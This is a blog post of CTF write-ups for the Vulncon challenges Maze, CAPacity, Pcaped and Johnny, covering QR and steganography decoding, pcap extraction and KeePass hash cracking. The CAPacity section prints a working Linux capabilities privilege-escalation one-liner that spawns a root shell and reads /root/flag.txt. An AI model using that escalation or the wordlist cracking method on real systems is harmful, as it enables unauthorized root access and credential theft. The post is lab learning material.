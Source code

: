 ```yaml
---
layout: post
title:  "Vulncon CTF writeups"
date:   2020-12-20 12:59:36 +0200
categories: ctf
---
```


These are the writeups for the [Vulncon CTF](https://ctf.noobarmy.org/) challenges that I personally solved.

## Maze

[http://maze.noobarmy.org/](http://maze.noobarmy.org/)

Use gobuster to find out subdirectory `/projects`. Navigate there and from the source we find out how to access some images:
```html
 <!--
  <img src="justsomerandomfoldername/image-0.png">
 -->
```
These are QR-codes. Let's dump their contents with a Python script:

```python
import requests
import io
from pyzbar.pyzbar import decode
from PIL import Image

for i in range(28):
    r = requests.get('http://maze.noobarmy.org/projects/justsomerandomfoldername/image-{0}.png'.format(i))
    image=Image.open(io.BytesIO(r.content))
    decoded = decode(image)
    print (decoded[0].data.decode('utf-8')+' ',end='')
```

Output:

```
Hello and welcome to this challenge! We hope that collecting these images 
was not that hard for you, anyways just so you know i love the number 13
```

Let's take a closer look at 13:

![QR Code]({{ site.url }}/assets/txTchqF.png)

```bash
exiftool image-13.png | grep Creator
Creator: aWh5YXBiYXtqQCRfN3UxJF8zaTNhX0BfajNvX3B1QHl5M2F0Mz99
```
Copy the string to [CyberChef](https://gchq.github.io/CyberChef/). add the following recipes: base64 decode and ROT-13.

## CAPacity

As the name suggests this challenge is about abusing Linux capabilities.

```bash
/sbin/getcap -r / 2>/dev/null
/usr/bin/python2.7 = cap_setuid+ep

$ /usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# id
uid=0(root) gid=1000(shhhhhh) groups=1000(shhhhhh)
# cat /root/flag.txt
vulncon{TW9kZS1TX0hleGNvZGUK}
```
Too bad this challenge was pulled since root access was a threat to the infrastructure.

## Pcaped

```bash
tshark -r Data.pcapng -e data -T fields | tr -d '\n'
```

Copy the string to [CyberChef](https://gchq.github.io/CyberChef/). add the folloiwing recipes from HEX, remove whitespace and from Base64.

## Johnny

Make two wordlists:

```
John
Ripper
Cracker
John37
Ripper37
Cracker37
```

```
!
"
#
%
&
$
@
```

use hashcat-utils to combine into a wordlist:

```bash
/usr/lib/hashcat-utils/combinator.bin 1.txt words > 2.txt    
```

repeat until you have word-symbol-word-symbol-word combination. Run through John The Ripper:

```bash
sudo john hash.txt --wordlist=final.txt 
John37@Cracker@Ripper (Confidential)
```

open up the keepass file and look at the flag:

`Programming_Is_Necessary_For Cyber_Right?`

Fix it by adding the missing `_` and submit.


